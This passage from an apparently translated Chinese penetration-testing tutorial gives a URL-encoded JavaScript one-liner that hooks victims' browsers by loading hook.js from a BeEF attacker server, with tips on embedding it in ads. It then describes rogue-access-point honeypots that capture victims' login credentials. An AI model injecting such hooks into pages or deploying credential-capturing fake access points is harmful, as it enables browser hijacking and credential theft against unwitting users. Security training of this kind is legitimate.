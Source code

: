 ![使用 BeEF 进行网络钓鱼](img/Insert6435OT_04_26.jpg)

人们经常问我们如何在没有 BeEF 附带的明显演示页面的情况下“钩住”受害者浏览器。以下 JavaScript 命令可用于任何网页来钩住浏览器：

`%20(function%20()%20{%20var%20url%20=%20%27http:%2f%2f192.168.135.129:3000%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20{%20var%20bf%20=%20document.createElement(%27script%27);%20bf.type%20=%20%27text%2fjavascript%27;%20bf.src%20=%20url;%20document.body.appendChild(bf);}})();`

您仍然需要创造性地运行 JavaScript 命令。它可以自动运行，嵌入广告，或者其他创造性的方式。只需用您的 BeEF 服务器替换 JavaScript 命令中的 IP 地址变量。您一定已经注意到我们服务器的 IP 地址在前面的例子中是`192.168.135.129`。您需要用您的 BeEF 服务器的 IP 地址替换它。确保您的 BeEF 服务器可以被受害者机器访问，否则这种攻击将无法进行。

# 流氓接入蜜罐

在计算机术语中，蜜罐是一种旨在检测、转移或误导对计算机系统或网络进行破坏的企图的陷阱。典型的蜜罐是一台计算机、一段数据或网络段，看起来是真实网络的一部分，无论网络有多么孤立和/或受监控。大多数蜜罐都表现出自己是脆弱的，并包含一些有价值的东西，以诱使攻击者远离真正的目标。

通常有两种类型的蜜罐。更常用的是生产蜜罐，它是设计成网络防御策略的一部分。生产蜜罐通常意味着将蜜罐放置在网络内部，目的是引诱已经突破其他防御措施的黑客，这意味着生产蜜罐是防止敏感系统被破坏的最后一道防线。

另一种蜜罐的类型是监控蜜罐，通常放置在网络上以研究通过它的数据。这类似于中间人攻击，但通常蜜罐会呈现自己为受害者连接的授权来源。一个例子是开发一个虚假的接入点，受害者相信这是一个可连接到网络的可行来源。当受害者使用蜜罐时，攻击者监视流量，包括捕获登录凭据。我们称这种攻击为基于使用监视蜜罐技术并通过虚假无线接入点向蜜罐提供接入方法的流氓接入蜜罐攻击。还有其他类型的蜜罐，如高交互和低交互蜜罐，蜜客户端等。但是，大多数这些都不适合树莓派的形态。
